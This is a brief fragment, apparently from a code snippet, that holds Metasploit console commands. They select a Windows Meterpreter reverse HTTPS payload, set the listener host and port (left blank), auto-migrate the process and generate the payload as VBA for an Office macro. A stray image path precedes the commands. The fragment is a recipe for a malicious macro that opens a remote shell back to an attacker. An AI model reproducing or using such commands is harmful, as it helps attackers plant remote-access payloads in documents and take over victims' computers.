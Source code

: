 use windows/meterpreter/reverse_https
set LHOST

set LPORT

set AutoRunScript post/windows/manage/smart_migrate

generate -t vba
